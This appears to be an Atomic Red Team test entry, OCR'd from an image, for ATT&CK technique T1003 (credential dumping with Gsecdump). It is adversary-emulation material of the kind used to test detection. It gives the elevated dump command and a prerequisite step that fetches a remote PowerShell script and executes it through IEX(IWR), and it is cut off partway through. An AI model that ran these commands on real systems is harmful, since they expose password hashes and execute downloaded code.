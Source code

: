 ```
                                                                                                                                                                                                                                        [********BEGIN TEST*******]                                                                                                                                                                                                             Technique: OS Credential Dumping T1003                                                                                                                                                                                                  Atomic Test Name: Gsecdump                                                                                                                                                                                                              Atomic Test Number: 1                                                                                                                                                                                                                   Atomic Test GUID: 96345bfc-8ae7-4b6a-80b7-223200f24ef9
Description: Dump credentials from memory using Gsecdump.
Upon successful execution, you should see domain\username's followed by two 32 character hashes.
If you see output that says "compat: error: failed to create child process", execution was likely blocked by Anti-Virus.  You will receive only error output if you do not run this test from an elevated context (run as administrator)If you see a message saying "The system cannot find the path specified", try using the get-prereq_commands to download and install Gsecdump first.                                                                                                                                                                                                                                                                                                                              Attack Commands:                                                                                                                                                                                                                        Executor: command_prompt                                                                                                                                                                                                                ElevationRequired: True                                                                                                                                                                                                                 Command:                                                                                                                                                                                                                                "#{gsecdump_exe}" -a
Command (with inputs):
"C:\AtomicRedTeam\atomics\..\ExternalPayloads\gsecdump.exe" -a

Dependencies:                                                                                                                                                                                                                           Description: Gsecdump must exist on disk at specified location (C:\AtomicRedTeam\atomics\..\ExternalPayloads\gsecdump.exe)                                                                                                              Check Prereq Command:                                                                                                                                                                                                                   if (Test-Path "#{gsecdump_exe}") {exit 0} else {exit 1}                                                                                                                                                                                 Check Prereq Command (with inputs):                                                                                                                                                                                                     if (Test-Path "C:\AtomicRedTeam\atomics\..\ExternalPayloads\gsecdump.exe") {exit 0} else {exit 1}                                                                                                                                       Get Prereq Command:                                                                                                                                                                                                                     [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12                                                                                                                                                         $parentpath = Split-Path "#{gsecdump_exe}"; $binpath = "$parentpath\gsecdump-v2b5.exe"                                                                                                                                                  IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1" -UseBasicParsing)
```